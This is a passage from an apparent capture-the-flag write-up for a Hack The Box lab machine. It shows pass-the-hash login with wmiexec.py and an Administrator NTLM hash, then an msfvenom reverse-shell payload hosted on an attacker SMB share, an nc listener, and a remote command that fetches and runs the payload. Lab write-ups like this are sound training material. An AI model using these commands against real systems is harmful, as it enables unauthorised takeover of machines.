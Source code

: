 ![hash2](./forest/hash2.png)

Then use the NTLM hash of `htb.local\Administrator` to login:

```bash
wmiexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6" \
  administrator@10.10.10.161 whoami
```

![root1](./forest/root1.png)

Use this to get a shell on the target:

```bash
# generate payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# host payload over SMB
sudo impacket-smbserver BUBBA .
# start listener
rlwrap nc -nvlp 6969
# send command to download and execute
wmiexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6" \
  administrator@10.10.10.161 'cmd.exe /c start /b \\10.10.14.27\BUBBA\bubba.exe'
```
